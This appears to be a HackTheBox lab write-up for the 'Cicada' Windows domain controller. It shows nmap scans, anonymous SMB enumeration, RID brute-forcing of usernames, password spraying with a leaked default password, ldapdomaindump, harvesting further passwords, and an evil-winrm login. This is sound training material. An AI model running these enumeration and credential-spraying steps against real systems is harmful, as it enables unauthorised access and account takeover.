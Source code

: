 ```yaml
---
layout: blog
title: Cicada HackTheBox
category: Cicada-HackTheBox
date: 2024-10-11
---
```

### Service Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.92.110       | **TCP**: 53,88,135,139,389,445,464,593,3268,3269,5985,63935

Ran nmap to scan for common TCP ports open on the target.

```bash
sudo nmap -sC -sV 10.10.11.35 -oA nmap -v 
```
![](<Pasted image 20241011182259.png>)
![](<Pasted image 20241011182323.png>)

Ran another nmap scan to identify any other open TCP ports on the target.
```bash
nmap -sV -p- -v 10.10.11.35 -oA nmap2
```
![](<Pasted image 20241011183159.png>)


**139,445 - SMB Enumeration**

The SMB share allows anonymous login which can be be exploited using the command below:
```bash
smbclient -N -L \\10.10.11.35
```
![](<Pasted image 20241011182605.png>)

Connected to the HR SMB share.
```bash
smbclient -N -L \\10.10.11.35
```
Under HR, found a file "Notice from HR.txt"
```
Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Based on the HR notice above, I added cicada.htb to /etc/hosts file that will resolve cicada.htb to the corresponding IP at 10.10.11.35.
```bash
sudo nano /etc/hosts
```
```
10.10.11.35 cicada.htb
```

Since the machine allows Guest session, I used this to enumerate users and shares on the target system.
```bash
nxc smb 10.10.11.35 -u Guest -p '' --rid-brute > user.txt
```
This will save a list of users on the system in a file named `user.txt`. Discovered all these usernames:
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
Administrator
Guest
krbtgt
CICADA-DC$
```

Now I am going to use the credential found from the HR notice along with the gathered list of usernames against the target to check for valid credentials.
```
nxc smb 10.10.11.35 -u user.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![](<Pasted image 20241012200417.png>)

I have a valid user `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`. Now, that I have valid credentials for a user on the target system, I can use `ldapdomaindump` to gather more details including users, groups, containers, etc.
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-json cicada.htb
```
![](<Pasted image 20241012202346.png>)
Running `ldapdomaindump` generates a `domain_users.html` file that contains interesting information on one of the other users - david.orelious. The user account description for david.orelious says:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```
![](<Pasted image 20241012202346-1.png>)

Now that I have another set of credentials, I am going to attempt to access another SMB share folder /DEV as user david.orelious.
```bash
smbclient -U 'cicada.htb/david.orelious' \\\\10.10.11.35\\DEV
```
This share contains `Backup_script.ps1`. Downloaded the script file in local system
```
smb> get Backup_script.ps1
```
![](<Pasted image 20241012202801.png>)
This script contains credentials for another user `emily.oscars:Q!3@Lp#M6b*7t*Vt`. Leveraging the user information gathered from `ldapdomaindump`, I know that the user `emily.oscars` has remote management access and is also a member of backup operators group.
![](<Pasted image 20241012202906.png>)

**Initial Foothold - emily.oscars**

I can now log in as user `emily.oscars` over WinRM. I am going to use [evil-winrm](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm) to get PowerShell access.
```bash
evil-winrm -i 10.10.11.35 -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```








